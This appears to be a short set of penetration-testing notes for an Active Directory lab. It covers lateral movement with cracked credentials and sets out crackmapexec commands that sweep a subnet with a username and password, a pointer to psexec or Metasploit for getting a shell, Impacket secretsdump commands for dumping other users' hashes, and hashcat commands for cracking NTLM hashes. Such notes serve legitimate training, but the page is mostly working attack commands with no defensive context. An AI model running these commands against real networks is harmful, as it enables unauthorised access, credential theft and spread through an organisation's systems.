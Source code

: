 
Once we have a cracked password or hash, Use it to run in the whole network and sweep in all the systems uses this cracked credentials.

## Crackmapexec

```sh
# Install crackmapexec
> sudo apt install crackmapexec

# Run crackmapexec 
> crackmapexec smb <targetnetworkcidr:192.168.1.0/24> -u <username: fcastle> -d <domainname: MARVEL.local> -p <Password: Password1>
```

Use psexec script or psexec module in metasploit to pop a shell in to the new system after the crackmapexec script execution.

# Dumping Hashes

Once we have cracked credentials, we use the cracked credentials and try to dump other user hashes in all the machines which uses cracked creds.
## Secretsdump
```sh
# secrets dump is a part of Impacket Toolkit
> secretsdump.py <domain/crackedusername:password@newmachineIP: marvel/fcastle:Password1@192.168.2.1>
```

# Cracking Password Hashes

NOTE: NTLM password Hashes can be passed over network, but not NTLMv2.

## HASHCAT
```sh 
> hashcat -m 1000 <hashfile: hashes4.txt> <passwordfile: rockyou.txt> -O
```

